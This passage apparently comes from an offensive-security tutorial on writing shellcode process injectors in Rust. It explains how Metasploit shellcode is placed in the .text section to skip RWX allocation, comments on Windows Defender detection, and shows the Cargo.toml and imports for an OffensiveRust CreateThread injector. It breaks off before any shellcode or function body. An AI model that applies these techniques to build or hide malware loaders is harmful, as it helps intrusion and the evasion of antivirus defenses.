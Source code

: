 Windows Defender easily caught our sample the moment it touched the disk, No wonder because we are putting plain metasploit shellcode in the `.text` section. Metasploit shellcodes are highly signatured, so its pretty hard to get them running most of the time.

![Shellcode Local Inject](/assets/videos/local1.gif)

Local Process Injection - Shellcode Local Inject Workflow :-

* The `no_mangle` macro disables symbol name encoding, *mangling is the encoding of function and variable names into unique names so that linkers can separate common names in the language. Disabling it is essential for unsafe C codes to access the shellcode*.
* `link_section` specifies the section to use for a function or static, in our sample the shellcode is saved in the `.text` section and As a result, no need to create any RWX memory for our shellcode.
* Finally the function casting `exec_data` eliminates the need for using Windows APIs calls like `CreateThread` etc.

![Shellcode in `.text` section, starts at offset `0xcb6` and ends at offset `0xdc9`](https://i.imgur.com/juj11Kj.png)
 
Let's do another test, this time using Windows APIs. 

Source : [OffensiveRust - Process Injection Create Thread](https://github.com/trickster0/OffensiveRust/tree/master/Process_Injection_CreateThread)

```json Cargo.toml
[package]
name = "rust_local_inject"
version = "0.1.0"
edition = "2021"

[dependencies]
kernel32-sys = "0.2.2"
winapi = {version = "0.3.8", features=[
    "winnt",
    "memoryapi",
    "errhandlingapi",
    "processthreadsapi",
    "synchapi",
    "winbase",
    "handleapi",
    "libloaderapi"
]}
winreg = "0.10"
argparse = "0.2.2"
clap = "3.1.5"
```

```rs main.rs
use winapi::um::winnt::{PVOID, PROCESS_ALL_ACCESS,MEM_COMMIT,MEM_RESERVE,PAGE_EXECUTE_READWRITE, PAGE_READWRITE, PAGE_EXECUTE_READ};
use std::ptr;
use std::io;
use std::io::prelude::*;
use std::io::{stdin, stdout, Read, Write};
use winapi::um::errhandlingapi;
use winapi::um::processthreadsapi;
use winapi::um::winbase;
use winapi::um::synchapi::WaitForSingleObject;
use std::process;

type DWORD = u32;

fn main(){
    create_thread()
}

fn create_thread() {
```